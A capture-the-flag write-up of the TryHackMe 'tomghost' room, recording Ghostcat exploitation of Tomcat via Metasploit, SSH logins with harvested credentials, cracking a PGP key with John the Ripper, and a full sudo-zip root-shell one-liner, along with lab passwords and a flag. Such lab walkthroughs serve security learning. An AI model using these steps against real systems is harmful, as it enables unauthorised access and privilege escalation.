


# TryHackMe: tomghost

> Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

*[Link](https://tryhackme.com/room/tomghost)*

## Recon

I got the following machine IP:

```
10.10.208.16
```

The nmap scan (see `nmap.log`) revealed the version number of Apache Tomcat running on port 8080. As the TryHackMe assignment already hinted, it's a version vulnerable to [Ghostcat](https://www.chaitin.cn/en/ghostcat) (CVE 2020-1938).

## Metasploit exploit

I tried the `admin/http/tomcat_ghostcat` exploit in metasploit, with the default filename. It got me the following credentials:

```
skyfuck:8730281lkjlkjdqlksalks
```

Which worked on SSH :-)



## Flag 1

Within the `skyfuck` home directory, I found two files: `tryhackme.asc` and `credential.pgp`. I copied these to my machine using SCP and started cracking the key with John the ripper.

```
┌─[parrot@parrot]─[~/Desktop/tryhackme-tomghost]
└──╼ $gpg2john tryhackme.asc > hash.txt

File tryhackme.asc
┌─[parrot@parrot]─[~/Desktop/tryhackme-tomghost]
└──╼ $john --wordlist=~/Desktop/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2023-08-02 15:22) 16.66g/s 17866p/s 17866c/s 17866C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And could now read the file, containing more credentials:

```
┌─[✗]─[parrot@parrot]─[~/Desktop/tryhackme-tomghost]
└──╼ $gpg --import tryhackme.asc 
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
  
┌─[parrot@parrot]─[~/Desktop/tryhackme-tomghost]
└──╼ $gpg --decrypt credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

I used these credentials to log into SSH again, now with the `merlin` user. His home directory contained the flag:

```
merlin@ubuntu:~$ cat user.txt
THM{GhostCat_1s_so_cr4sy}
```

## Privilege escalation: flag 2

It looks like the zip utility might be a privilege escalation vector:

```
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

I found steps to escalate privileges using zip with a simple google search. Executing the following works:

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

*[Source](https://gtfobins.github.io/gtfobins/zip/)*



